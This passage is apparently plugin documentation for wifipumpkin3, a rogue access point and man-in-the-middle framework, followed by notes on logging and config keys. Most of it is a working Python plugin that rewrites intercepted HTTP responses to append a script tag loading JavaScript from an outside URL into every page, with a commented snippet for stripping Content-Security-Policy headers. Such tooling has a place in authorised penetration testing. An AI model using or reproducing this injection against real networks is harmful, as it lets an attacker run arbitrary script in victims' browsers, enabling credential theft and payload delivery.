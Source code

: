 another example how to rewrite packet in real time 
 ``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin
from os import path
from bs4 import BeautifulSoup

class js_inject(BasePumpkin):
    meta = {
        "_name": "js_inject",
        "_version": "1.1",
        "_description": "url injection insert and use our own JavaScript code in a page.",
        "_author": "by Maintainer",
    }

    @staticmethod
    def getName():
        return js_inject.meta["_name"]

    def __init__(self):
        for key, value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = True
        self.url = self._config.get("set_js_inject", "url")

    def handleResponse(self, request, data):

        html = BeautifulSoup(data, "html.parser")
        """
        # To Allow CORS
        if "Content-Security-Policy" in flow.response.headers:
            del flow.response.headers["Content-Security-Policy"]
        """
        if html.body:
            url = "{}".format(request.uri)
            metatag = html.new_tag("script")
            metatag.attrs["src"] = self.url
            metatag.attrs["type"] = "text/javascript"
            html.body.append(metatag)
            data = str(html)
            print("[{} js script Injected in [ {} ]".format(self._name, url))
        return data
```

### Logging 
all log will save data(pumpkin-prxoy.log) in your plugin.

### How to add argumments 
Now, if you want to add argumments in proxy.ini for show me on Pumpkin-Proxy->Settings.you need to add in directory "core/config/app/proxy.ini" the key (exampleplugin and set_exampleplugin).

* exampleplugin key is the option checkbox to change and enable or disable plugin
* set_exampleplugin this is key for search all argumments in Settings option.
![plugin_key](http://i.imgur.com/oSvErrZ.png)
